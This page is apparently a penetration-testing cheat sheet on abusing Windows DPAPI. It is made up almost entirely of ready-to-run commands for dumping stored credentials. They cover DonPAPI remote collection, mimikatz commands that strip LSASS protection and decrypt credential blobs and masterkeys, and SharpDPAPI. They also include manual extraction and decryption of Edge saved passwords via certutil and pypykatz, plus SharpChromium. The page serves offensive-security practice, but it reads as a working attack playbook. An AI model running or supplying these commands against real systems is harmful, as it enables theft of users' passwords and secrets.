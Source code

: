 ```yaml
---
title: "DPAPI"
date: 2024-7-31
tags: ["Credential Dumping", "Mimikatz", "DPAPI", "Windows", "Password", "Donpapi"]
---
```


### Abuse #1: Auto dump (From Linux)

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
DonPAPI collect -d <DOMAIN> -u <USER> -p '<PASSWORD>' -t <TARGET>
```

<small>*Ref: [DonPAPI](https://github.com/login-securite/DonPAPI)*</small>

{{< /tabcontent >}}

### Abuse #1: Auto dump (From Windows)

{{< tab set2 tab1 active >}}mimikatz{{< /tab >}}
{{< tab set2 tab2 >}}SharpDPAPI{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 1. Info Gathering

```console
cmd /c "dir /S /AS C:\Users\<TARGET_UESR>\AppData\Local\Microsoft\Vault & dir /S /AS C:\Users\<TARGET_UESR>\AppData\Local\Microsoft\Credentials & dir /S /AS C:\Users\<TARGET_UESR>\AppData\Local\Microsoft\Protect & dir /S /AS C:\Users\<TARGET_UESR>\AppData\Roaming\Microsoft\Vault & dir /S /AS C:\Users\<TARGET_UESR>\AppData\Roaming\Microsoft\Credentials & dir /S /AS C:\Users\<TARGET_UESR>\AppData\Roaming\Microsoft\Protect"
```

#### 2. Secrets Dump

```console
mimikatz.exe "token::elevate" "!+" "!processprotect /process:lsass.exe /remove" "dpapi::cred /in:C:\Users\<TARGET_UESR>\AppData\Roaming\Microsoft\Credentials\<CREDENTIALS_HASH>"' '"dpapi::masterkey /in:C:\Users\<TARGET_UESR>\AppData\Roaming\Microsoft\Protect\<SID>\<PROTECT_HASH> /sid:<SID> /password:<PASSWORD> /protected"' '"dpapi::cred /in:C:\Users\<TARGET_UESR>\AppData\Roaming\Microsoft\Credentials\<CREDENTIALS_HASH>"' "exit"
```

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

```console
# Run as system
.\SharpDPAPI.exe machinetriage
```

```console
# Run as user
.\SharpDPAPI.exe credentials /password:'<PASSWORD>'
```

{{< /tabcontent >}}

---

### Abuse #2: Browser Saved Creds

{{< tab set3 tab1 active >}}Manual{{< /tab >}}
{{< tab set3 tab2 >}}Auto{{< /tab >}}
{{< tabcontent set3 tab1 >}}

#### 1. Prepare logindata and localstate file

```console
# Get Local State json file, copy and paste to local Linux
type "C:\Users\<USER>\appdata\local\microsoft\edge\User Data\Local State"
```

```console
# Get Login Data binary file
certutil -encode "C:\Users\<USER>\appdata\local\microsoft\edge\User Data\Default\Login Data" C:\ProgramData\logindata
```

```console
# Copy and paste to local Linux
type C:\ProgramData\logindata
```

```console
# Base64 decode
cat logindata_b64 | base64 -d > logindata
```

```console
# Extract key from local state
cat localstate | jq -r .os_crypt.encrypted_key | base64 -d | cut -c6- > blob
```

```console
# Get masterkey_guid
pypykatz dpapi describe blob blob
```

<small>*Ref: [pypykatz](https://github.com/skelsec/pypykatz)*</small>

#### 2. Retrieve Keys

```console
# Get master key
certutil -encode "C:\Users\<USER>\AppData\Roaming\Microsoft\Protect\<SID>\<MASTERKEY_GUID>" C:\ProgramData\<MASTERKEY_GUID>
```

```console
# Copy and paste to local Linux
type C:\ProgramData\<MASTERKEY_GUID>
```

```console
# Base64 decode
cat masterkey_guid_b64 | base64 -d > masterkey_guid
```

#### 3. Decrypt

```console
pypykatz dpapi prekey password <SID> <USER_PASSWORD> | tee pkf
```

```console
pypykatz dpapi masterkey <MASTERKEY_GUID_FILE> pkf -o mkf
```

```console
pypykatz dpapi chrome --logindata logindata mkf localstate
```

{{< /tabcontent >}}
{{< tabcontent set3 tab2 >}}

```console
.\SharpChromium.exe logins
```

<small>*Ref: [SharpChromium.exe](https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.5_Any/SharpChromium.exe)*</small>

{{< /tabcontent >}}

---

### Abuse #3: Decrpyt Masterkey without password

{{< tab set4 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set4 tab1 >}}

```console
# Take note of the last key
.\mimikatz.exe "dpapi::masterkey /in:C:\users\<USER>\appdata\roaming\microsoft\protect\<SID>\<MASTERKEY_GUID> /rpc" exit
```

```console
# Decrypt
.\mimikatz.exe "dpapi::cred /in:C:\users\<USER>\appdata\roaming\microsoft\protect\<SID>\<MASTERKEY_GUID> /masterkey:<KEY>" exit
```

{{< /tabcontent >}}
